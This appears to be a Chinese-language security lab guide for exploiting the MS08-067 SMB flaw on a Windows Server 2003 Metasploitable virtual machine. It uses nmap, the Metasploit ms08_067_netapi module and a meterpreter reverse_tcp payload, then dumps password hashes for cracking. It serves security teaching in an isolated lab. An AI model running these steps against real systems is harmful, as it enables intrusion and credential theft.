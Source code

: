 # 实验xx利用MS08_067漏洞渗透win2k3sp0

## 实验目的

1.掌握渗透测试框架 metasploit的基本用法
2.理解ms08_067漏洞利用的工作原理

## 注意：
kali2019与kali2中的exploit和payload不同，不能再利用kali201902成功渗透我windows 2k3 metasploitable。可以尝试使用ms17-010，但未验证实效。

## 实验内容

1.使用nmap扫描虚拟局域网内的活跃主机IP地址。
2.使用kali 2 虚拟机中的metasploit-framework对 win2k3 metasploitable虚拟机进行渗透。
3.根据实验步骤完成实验报告

## 实验步骤

1.打开虚拟机kali 201902。

2.打开虚拟机 win2k3 metasploitable。

![winserver2k3](images/lab_exploitwin2k3/winserver2k3.png)


3.确保这两台虚拟机都处于vmnet 8 虚拟网络中，即子网地址10.10.10.0/24 。


4.使用命令```ifconfig```查看kali的IP地址。

![kali下ifconfig](images/lab_exploitwin2k3/kali下ifconfig.png)

可知其IP地址，本例为10.10.10.133。

5.在kali中，打开terminal，运行下列命令，使用 nmap 对局域网内活跃主机进行扫描。
``` nmap -sN 10.10.10.0/24```

![nmapscan](images/lab_exploitwin2k3/nmapscan.png)

可知win2k3虚拟机的IP地址为10.10.10.130。

6.打开kali中的metasploit-framework.

![metasploitable01](images/lab_exploitwin2k3/metasploitable01.png)

7.运行下列命令，加载渗透代码。
```
# 加载渗透代码
use exploit/windows/smb/ms08_067_netapi
# 显示选项
show options
```

![metasploitable02](images/lab_exploitwin2k3/metasploitable02.png)

8.设置渗透选项。
```
# 设置RHOST
msf5 exploit(windows/smb/ms08_067_netapi) > set rhosts 10.10.10.130
# 设置target
msf5 exploit(windows/smb/ms08_067_netapi) > set target 3
# 显示选项
msf5 exploit(windows/smb/ms08_067_netapi) > show options
```

![metasploitable03](images/lab_exploitwin2k3/metasploitable03.png)


9.执行下列命令，加载攻击载荷。
```
msf5 exploit(windows/smb/ms08_067_netapi) > set payload windows/meterpreter/reverse_tcp

# 还可以尝试下面的攻击载荷，但可能无法成功
# 设置windows/meterpreter/reverse_tcp为攻击载荷
msf5 exploit(windows/smb/ms08_067_netapi) > set payload windows/meterpreter/reverse_tcp_allports

# 设置载荷参数lhost
msf5 exploit(windows/smb/ms08_067_netapi) > set lhost 10.10.10.133

# 查看参数
msf5 exploit(windows/smb/ms08_067_netapi) > show options

```

![metasploitable04](images/lab_exploitwin2k3/metasploitable06.png)


10.执行exploit命令启动攻击过程。
```msf5 exploit(windows/smb/ms08_067_netapi) > exploit ```

如果出现下图所示内容，意味着渗透成功。

![metasploitable04](images/lab_exploitwin2k3/metasploitable07.png)

11.此时可以使用help命令，查看meterpreter提供的命令。例如：

执行sysinfo命令查看目标系统信息：
```meterpreter> sysinfo ```

执行screenshot截取当前屏幕。
```meterpreter > screenshot ```

12.进入后攻击过程。

执行下列命令获得账户口令hash值。
```meterpreter > run post/windows/gather/smart_hashdump ```

获取的口令一般保存在“/root/.msf4/loot/”的某个文件中。之后可以使用hashcat等工具进行破解口令hash值。

